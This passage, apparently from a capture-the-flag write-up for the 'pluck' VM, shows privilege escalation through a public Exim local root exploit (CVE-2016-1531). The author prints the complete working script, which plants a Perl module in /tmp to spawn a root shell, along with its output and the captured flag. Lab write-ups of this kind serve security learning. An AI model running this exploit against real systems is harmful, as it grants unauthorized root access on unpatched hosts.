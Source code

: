 ``` 
```

Exim is a MTA similar to sendmail. Googling for an exploit yielded a [local root exploit](https://www.exploit-db.com/exploits/39535/). I used vi to create a shell script with the exploit code, changed it to executable and ran it:

``` 
paul@pluck:~$ vi rootme.sh 
paul@pluck:~$ cat rootme.sh 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;
 
system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps

paul@pluck:~$ ./rootme.sh 
[ CVE-2016-1531 local root exploit
# whoami
root
```

The flag is mine!

``` 
# cat /root/flag.txt

Congratulations you found the flag

---------------------------------------

######   ((((((((((((((((((((((((((((((
#########   (((((((((((((((((((((((((((
,,##########   ((((((((((((((((((((((((
@@,,,##########   (((((((((((((((((((((
@@@@@,,,##########                     
@@@@@@@@,,,############################
@@@@@@@@@@@,,,#########################
@@@@@@@@@,,,###########################
@@@@@@,,,##########                    
@@@,,,##########   &&&&&&&&&&&&&&&&&&&&
,,,##########   &&&&&&&&&&&&&&&&&&&&&&&
##########   &&&&&&&&&&&&&&&&&&&&&&&&&&
#######   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&
```

Interesting twist on this VM with the pdbmenu escape!

**Learn more**

- [escape restricted Linux shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)
